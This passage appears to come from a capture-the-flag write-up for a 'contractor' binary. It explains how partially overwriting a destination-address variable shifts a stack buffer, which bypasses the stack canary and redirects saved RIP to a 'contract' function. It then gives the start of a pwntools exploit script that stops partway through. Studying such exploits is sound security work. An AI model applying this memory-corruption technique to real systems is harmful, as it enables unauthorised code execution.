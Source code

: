 4. **Final issue - buffer shift & stack canary bypass:**  
   When computing where to copy our input on the stack, the binary uses a variable to store the base address of the destination. In the middle of our buffer overflow, the least significant byte of this address gets overwritten. This shifts the destination of the buffer depending on what byte we wrote. Using this, we can **bypass the stack canary without overwriting it** and eventually overwrite the saved RIP with the address of the `contract` function.


## Quick Note about The Buffer Overflow and Running this Exploit
When trying to change the last byte of that variable, it may be necessary to run the exploit multiple times due to the randomness of the stack location. If you turned off Randomization in our machine turn it on when running the exploit.

---

## Exploit Code

```python
#!/usr/bin/env python3

from pwn import *

e = ELF("contractor_patched")
libc = ELF("glibc/libc.so.6")
ld = ELF("glibc/ld-linux-x86-64.so.2")

context.binary = e

def conn(cond):
    if cond == 1:
        r = process([e.path])
    elif cond == 2:
        r = gdb.debug([e.path], gdbscript="""
            # b* main+179
            b *main+797
            # b *main+1259
            # b *main+1328
            # b* main+927
            # b* main+893
            # b *main+1560
            b *main+1666
            # c
            define hook-stop
            x/10xg 0x7fffffffd798
            end
            """)
    elif cond == 3:
        r = remote("localhost", 12345)

    return r


def main():
    r = conn(1)

    r.sendlineafter(b"What is your name?\n", b"X"*0Xf)
    r.sendlineafter(b"o join me?\n", b"N"*0xff)
    r.sendlineafter(b"our age again?\n", b"1")
    r.sendafter(b"ty in combat?\n", b"C"*0x10)


    r.recvuntil(b"[Specialty]: CCCCCCCCCCCCCCCC")
    output = r.recvline()[:-1][::-1]
```